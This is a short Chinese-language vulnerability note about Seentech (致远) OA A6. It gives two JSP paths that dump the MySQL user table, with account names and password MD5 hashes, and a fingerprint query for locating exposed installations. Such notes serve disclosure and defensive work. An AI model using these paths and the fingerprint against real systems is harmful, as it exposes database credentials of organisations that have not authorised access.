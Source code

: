 # 致远OA A6 createMysql.jsp 数据库敏感信息泄露

## 漏洞描述

致远OA A6 存在数据库敏感信息泄露，攻击者可以通过访问特定的URL获取数据库账户以及密码 MD5

## 漏洞影响

```
致远OA A6
```

## 网络测绘

```
title="致远A8+协同管理软件.A6"
```

## 漏洞复现

当访问如下URL时执行了SQL语句 `select *from mysql.user;` 进行查询并返回到页面中

```
/yyoa/createMysql.jsp
/yyoa/ext/createMysql.jsp
```

![image-20220520152725777](./images/202205201527828.png)

![image-20220520152737237](./images/202205201527304.png)